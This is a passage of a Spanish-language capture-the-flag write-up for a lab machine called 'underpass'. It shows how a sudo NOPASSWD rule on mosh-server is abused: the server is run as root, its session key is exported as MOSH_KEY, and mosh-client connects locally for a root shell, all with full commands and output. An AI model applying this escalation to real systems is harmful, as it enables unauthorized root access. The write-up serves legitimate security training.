  Swap usage:   0%

  => / is using 88.5% of 3.75GB


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Thu Dec 12 15:45:42 2024 from 10.10.14.65
svcMosh@underpass:~$ id
uid=1002(svcMosh) gid=1002(svcMosh) groups=1002(svcMosh)
```

Podemos ver la flag de usuario.
```console
svcMosh@underpass:~$ cat user.txt
5dfd6b465b72dc...
```

# Privilege Escalation
Podemos ver que el usuario `svcMosh` tiene permisos para ejecutar como el usuario que quiera y sin contraseña el binario `/usr/bin/mosh-server`
```console
svcMosh@underpass:~$ sudo -l
Matching Defaults entries for svcMosh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svcMosh may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/bin/mosh-server
```

Podemos comprobar que efectivamente es un binario.
```console
svcMosh@underpass:~$ file /usr/bin/mosh-server
/usr/bin/mosh-server: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=26b56b88e14ea6edca803fb0309a81ed06a7e970, for GNU/Linux 3.2.0, stripped
```

## Abusing mosh-server sudo privilege
Podemos comprobar [en este sitio](https://linux.die.net/man/1/mosh-server) que es esto.

En resumen, `mosh-server` es el componente del lado servidor de Mosh, una herramienta para sesiones de terminal remotas que utiliza UDP en lugar de TCP. Se ejecuta en el servidor y abre un puerto UDP alto (por defecto entre 60000 y 61000) para aceptar conexiones del cliente. Además, genera una clave de cifrado para proteger la sesión. Al iniciarse, imprime el puerto y la clave en la salida estándar y espera que un cliente (`mosh-client`) se conecte en un plazo de 60 segundos.

Cuando un cliente se conecta, `mosh-server` establece una sesión interactiva utilizando el shell predeterminado del usuario. Si la conexión del cliente se interrumpe, puede reconectarse sin necesidad de reiniciar la sesión, gracias a que el uso de UDP permite manejar cambios de red o interrupciones temporales. El servidor se cierra automáticamente cuando el cliente termina la sesión o si no recibe conexión dentro del tiempo establecido.

Cuando ejecutamos `mosh-server` nos devuelve un puerto y una clave de cifrado.
```console
svcMosh@underpass:~$  /usr/bin/mosh-server


MOSH CONNECT 60001 kWk1cK4x94r9UZvAVndj5g

mosh-server (mosh 1.3.2) [build mosh 1.3.2]
Copyright 2012 Keith Winstein <mosh-devel@mit.edu>
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>.
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.

[mosh-server detached, pid = 2083]
```

Entonces técnicamente, si el proceso está siendo ejecutado como `root` y tenemos la clave de cifrado, podemos iniciar sesión como `root` utilizando `mosh-client` sin necesidad de saber la contraseña de `root`

Entonces podemos ejecutar el proceso como `root`
```console
svcMosh@underpass:~$ sudo /usr/bin/mosh-server


MOSH CONNECT 60001 epr04rwHVS9hoFA/nVVoWA

mosh-server (mosh 1.3.2) [build mosh 1.3.2]
Copyright 2012 Keith Winstein <mosh-devel@mit.edu>
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>.
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.

[mosh-server detached, pid = 2165]
```

Y ahora mirando el manual de `mosh-client` podemos ver que la clave de cifrado de 22 bytes en base64 creada por `mosh-server` la debemos exportar en la variable de entorno `MOSH_KEY`


Y ahora podemos utilizar `mosh-client` para ganar una sesión como `root`, primero exportamos la clave generada por el servidor a la variable de entorno `MOSH_KEY`
```console
export MOSH_KEY=epr04rwHVS9hoFA/nVVoWA
```

Y ahora podemos utilizar `mosh-client` para establecer la sesión.
```console
svcMosh@underpass:~$ mosh-client 127.0.0.1 60001
....
root@underpass:~# id
uid=0(root) gid=0(root) groups=0(root)
```

Podemos leer la flag de `root`
```console
root@underpass:~# cat root.txt
f316f248d310c...
```

¡Y ya estaría!

Happy Hacking! 🚀